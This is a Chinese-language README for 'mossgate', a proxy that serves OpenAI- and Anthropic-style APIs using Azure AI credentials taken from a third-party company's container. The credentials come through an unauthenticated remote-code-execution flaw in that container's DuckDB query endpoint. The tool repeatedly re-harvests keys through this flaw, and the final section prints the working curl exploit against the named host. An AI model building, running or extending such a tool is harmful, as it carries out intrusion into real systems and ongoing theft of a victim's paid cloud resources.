

# mossgate

一个把上游 Azure AI Foundry 资源包成 OpenAI / Anthropic 双协议网关的转发层：模型目录、双向协议翻译、工具调用、按模型配额准入、429 退避与降级、并发池、Prometheus 指标。

上游凭据来自 finding **#5473**（MOSS 匿名 DuckDB 管道 RCE，`pythiav2-dev` 容器环境变量），是否仍可用见下方「时效」。

## 能力

| 面 | 说明 |
|---|---|
| 协议 | `POST /v1/messages`（Anthropic）、`POST /v1/chat/completions`（OpenAI），均支持 SSE 流式 |
| 翻译 | 两个方向都通：OpenAI 客户端打 Claude 模型、Anthropic 客户端打 GPT 模型。文本、图片、`tools`、`tool_choice`、`tool` 结果、`stop`、usage、finish_reason 全部映射 |
| 模型 | `GET /v1/models`、`/v1/models/{id}`，带 `context_window` / `max_output_tokens`；别名与家族前缀降级，客户端默认模型名不会 404 |
| 准入 | 每模型请求桶 + token 桶，容量取自上游 `x-ratelimit-*` 实测值（opus 40/60s、sonnet 30/60s、haiku 1000/60s、gpt 500/60s），默认 0.95 系数，429 时按 `retry-after` 冷却 |
| 降级 | 重试 2 轮 → `opus→sonnet→haiku`、`gpt-4.1↔luna`；本地排队超时也走链 |
| 并发 | httpx HTTP/2 连接池（200 连接）+ 全局 in-flight 信号量（256），流式零缓冲 |
| 凭据 | key 池轮换、401 冷却、single-flight 重新收割；空池时从容器现取 |
| 观测 | 结构化 JSON 日志、`/metrics`（Prometheus）、`/v1/models` 供客户端预检 |
| 防护 | 可选 `GATEWAY_TOKEN` Bearer 鉴权（`/_health`、`/metrics` 例外） |

## 用法

```sh
python3 -m venv .venv && .venv/bin/pip install -r requirements.txt
./start.sh                    # 127.0.0.1:8787
./claude-moss                 # Claude Code 直连；也可 ./claude-moss -p "..." --model haiku
```

任意 OpenAI SDK：

```sh
export OPENAI_BASE_URL=http://127.0.0.1:8787/v1
export OPENAI_API_KEY=dummy
```

model 取值：`gpt` `auto` `router`（→ gpt-5.6-luna）`haiku` `sonnet` `opus`，或真实 id。

Docker：

```sh
docker compose up -d --build
```

## 端点

| 方法 | 路径 | |
|---|---|---|
| GET | `/v1/models`、`/v1/models/{id}` | 目录与能力 |
| POST | `/v1/chat/completions` | OpenAI 协议 |
| POST | `/v1/messages` | Anthropic 协议 |
| GET | `/_health` | 上游、key 指纹、各模型剩余额度 |
| GET | `/metrics` | Prometheus |
| POST | `/_key/refresh` | 立即从容器收割 key |

## 配置

全部环境变量，见 `.env.example`。关键项：`GATEWAY_TOKEN`、`MOSSGATE_KEYS`、`HARVEST`、`MAX_INFLIGHT`、`QUEUE_TIMEOUT`、`QUOTA_RATIO`、`MODEL_CATALOG`（`models.json` 可增删模型与别名，限流值按需覆盖）。

## 架构



## 时效与边界

- 该 key 属于单个 Azure paygo 资源，`api.anthropic.com` 直连 401；`claude-opus-5-5` 未部署（404 DeploymentNotFound）。
- 收割通道是 `pythiav2-dev` 的 `/api/data/query`；prod 实例当前 DuckDB 已 fatal，需重启容器才恢复。dev 修好或下线后 `HARVEST` 失效，只能靠 `key.env`。
- 单实例；多实例需把 key 池与配额桶外部化（当前按进程内存）。

## 测试

```sh
.venv/bin/python -m pytest -q
```

覆盖目录解析、双向翻译（含流式工具增量）、桶准入/超时、鉴权、降级与错误映射；上游用 stub，不出网。

## 溯源

漏洞与凭据来源：finding #5473 `Unauthenticated RCE (DuckDB pipe operator) + 云凭据泄露`，目标 `bearly.ai` / `purplesmoke-ff24e48e`（UK South）。原始复现：

```sh
curl -sS -H 'Content-Type: application/json' \
  -d '{"sql":"SELECT * FROM read_csv('\''id |'\'')"}' \
  https://pythiav2-dev.purplesmoke-ff24e48e.uksouth.azurecontainerapps.io/api/data/query
```
